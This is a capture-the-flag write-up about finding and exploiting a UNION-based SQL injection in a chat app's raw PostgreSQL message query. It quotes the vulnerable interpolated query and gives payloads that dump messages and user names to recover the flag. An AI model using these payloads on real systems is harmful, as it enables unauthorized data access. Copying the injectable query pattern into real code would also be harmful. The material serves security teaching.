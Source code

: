 ## Introduction

![](images/image.png)

Looking at this big project, written in React and Express and TypeORM (PostgreSQL). 
It is important to read the whole project structure and understand how it works. and ready all the files and how they communicate with each other.
Plus opening it in the browser and trying to interact with it.

## Analysis

After carefully reading the code, I found that the project is a simple web application that allows users to register and login, and they send invitations to each other, they can chat later chat.

going through the services in the backend, the most *Eye-catching* service is the `message.services.ts` file, which is responsible for sending messages to the database and retrieving them.

```ts
const messages = await source.manager.query(`
      SELECT "message"."id" AS "message_id", "message"."message" AS "message", "message"."createdAt" AS "createdAt", "from"."id" AS "from_id", "to"."id" AS "to_id"
      FROM "message" "message" 
      LEFT JOIN "user" "from" ON "from"."id"="message"."fromId"  
      LEFT JOIN "user" "to" ON "to"."id"="message"."toId" 
      WHERE "message"."fromId" = ${withUserId} AND "message"."toId" = ${user.id} OR "message"."fromId" = ${user.id} AND "message"."toId" = ${withUserId}
`)
```

This query is the only one that does not use the TypeORM query builder, It is just a bare SQL raw query, so a high chance that it is vulnerable to SQL injection, Union SQL Injection to be more specific. `user.id` is a variable that is passed from the JWT athenticator, so it is hard to control it, but `withUserId` is a variable that is passed from the frontend, so it is possible to be used as an injection point.
The API Endpoint that uses this service is `/message/:withUserId`, so we can try to inject it.


## Exploitation

When Exploiting a Union SQL Injection, you need to know the number of columns in the query, and the type of each column, and the order of the columns. based on the query above, we can see that the query returns 5 columns, and the order of the columns is `message_id` (integer), `message` (string), `createdAt` (date), `from_id` (integer), `to_id` (integer).

the Only string value in the query is the `message` column, so we can use it to inject our payload, while using NULL values for the other columns.

A prerequisite for this exploit is that we need to have a JWT token, so we need to register and login first. Then we need a valid user ID, for example `1` would be enough.

> payload: 1 union select null, 'TESTING_UNION_ATTACK', null, null, null -- 

![](images/s1.png)

We can see that the payload is executed successfully, and the custom message is returned to us alongside the other messages.

Now we need to retrieve something useful from the database, for example, all the messages.

> payload: 1 union select null, message, null, null, null from message --

We don't see any potential flag, yet more messages. Some of them though are trying to point to a certain information, like `haven't you noticed, that the names in this chat are quiet weird?`, `I think I saw pete using a weird name, with {}+ or something`.. which are some possible hints to check the users names... having fullname as a field in the database, we can try to retrieve all of them.

> payload: 1 union select null, fullname, null, null, null from "user" --
Don't forget to put the table name in double quotes, because `user` is a reserved table in PostgreSQL.

Now we can spot the flag in the response.
```json
{
        "id": null,
        "message": "ENIT{yE1+h3+FOUND+4n0X3r+Tm}",
        "createdAt": null,
        "from": {
            "id": null
        },
        "to": {
            "id": null
        }
    },
```


## Conclusion
This was an example of a Union SQL Injection, and how to exploit it. In the middle of a quiet large project, there is always a chance to find a vulnerability, and it is important to read the code carefully and understand how it works.

## Flag

> `ENIT{yE1+h3+FOUND+4n0X3r+Tm}`